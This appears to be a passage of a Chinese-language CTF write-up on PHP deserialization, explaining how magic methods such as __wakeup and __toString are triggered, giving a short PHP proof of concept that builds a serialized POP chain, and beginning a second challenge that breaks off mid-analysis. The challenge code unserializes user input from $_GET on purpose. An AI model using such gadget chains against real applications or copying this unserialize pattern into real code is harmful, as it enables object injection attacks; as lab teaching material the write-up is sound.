 ```
}
$b = $_GET['benben'];
unserialize($b);//这里反序列化$b并不会触发wakeup 因为$benben在类sec里面
?> 
```

这里如果benben的值为反序列化类sec的结果

反序列化$b并不会触发wakeup

所以要触发wakeup（） 必须要反序列化fast这个类

同理

要触发tostring这个魔术方法

触发时机:把对象被当成字符串调用

让source = sec这个类才可以

然后让benben = fast这个类将其反序列化的时候顺理成章调用wakeup

根据pop构造poc

将类里只留下成员变量 删除成员函数

```
<?php
class fast
{
  public $source;
}
class sec
{
  var $benben;
}
$fast = new fast();
$sec = new sec();
$fast -> source = $sec;
echo serialize($fast);
```

### 解题过程：


#### **ez_php2**

首先进行观察，发现关键要素$value($this->flag)在Er的__set中

__set需要进行不存在变量赋值

发现Rd中出现了不存在变量var1,在__call函数中

__call函数需要调用不存在的方法

发现Ha中调用Love(),该函数在__destruct中，

##### pop链为
